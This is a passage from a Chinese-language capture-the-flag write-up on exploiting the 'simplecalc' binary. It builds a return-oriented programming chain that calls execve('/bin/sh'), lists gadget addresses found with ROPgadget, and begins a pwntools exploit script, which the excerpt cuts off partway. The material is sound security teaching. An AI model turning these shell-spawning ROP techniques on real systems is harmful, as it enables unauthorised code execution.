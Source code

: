 ```plaintext
pop rdi ; ret
/bin/sh\0
pop rsi ; ret
0
pop rdx ; ret
0
pop rax ; ret
0x3b
syscall
```

但实际上这样会出问题，问题就是不能通过 `pop` 把 `/bin/sh` 字符串传入，这样传会被认为是指令而不是数据。所以我们需要通过 `mov` 指令来实现传入 `/bin/sh`：

```plaintext
mov rdi, rsp
/bin/sh\0
pop rsi ; ret
0
pop rdx ; ret
0
pop rax ; ret
0x3b
syscall
```

通过 `ROPgadget` 我们可以找到这些 gadget 的地址：

```plaintext
0x0000000000400493 : pop r12 ; ret
0x0000000000492468 : mov rdi, rsp ; call r12
0x0000000000437aa9 : pop rdx ; pop rsi ; ret
0x000000000044db34 : pop rax ; ret
0x0000000000400488 : syscall
```

## Exploit

```python
#!/usr/bin/python3

from pwn import *

context(
    os='linux',
    arch='amd64',
    log_level='debug',
    terminal='kitty',
    binary=ELF('./simplecalc')
)

target = process()

recvline      = lambda : target.recvline()
recvuntil     = lambda str : target.recvuntil(str)
sendline      = lambda str : target.sendline(str)
sendlineafter = lambda str1, str2 : target.sendlineafter(str1.encode(), str2.encode())
interactive   = lambda : target.interactive()

def add(x, y):
    sendlineafter('=> ', '1')
    sendlineafter('x: ', str(x))
    sendlineafter('y: ', str(y))

def sub(x, y):
    sendlineafter('=> ', '2')
    sendlineafter('x: ', str(x))
```